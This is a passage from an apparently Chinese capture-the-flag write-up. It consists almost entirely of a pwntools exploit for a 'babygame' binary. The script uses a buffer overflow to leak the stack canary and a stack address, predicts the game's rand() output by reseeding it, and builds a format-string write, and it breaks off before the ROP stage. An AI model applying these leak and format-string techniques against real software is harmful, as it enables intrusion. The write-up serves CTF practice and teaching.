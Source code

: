这时候找libc里面的system等等和ROP链，大家应该都很熟悉了


### exp

    from pwn import *

    from ctypes import CDLL



    context.log_level = 'debug'



    io = process('./babygame',env={'LD_PRELOAD': './libc-2.31.so'})

    libc = CDLL('libc.so.6')

    libc.srand(0x31313131)

    libc2 = ELF('./libc-2.31.so')

    operate = [1,2,0]



    io.recvuntil("Please input your name:")

    payload = b'a'*256 + p64(0x3131313131313131)

    #gdb.attach(io)

    io.sendline(payload)

    io.recvuntil(b"111\n")

    canary = io.recv(7).rjust(8,b'\x00')

    log.success("canary:"+hex(u64(canary)))

    stack_base = io.recv(6).ljust(8,b'\x00')

    log.success("stack_base:"+hex(u64(stack_base)))

    stack_base = u64(stack_base)



    for i in range(100):

        io.recvuntil('round')

        choose = libc.rand()%3

        io.sendline(str(operate[choose]))



    target =  stack_base -824 

    #fmt = 'aaaaaa'

    fmt = b'%9$lx%170c%8$hhn' + p64(target)

    #p.send(fmt)

    # offset = 6
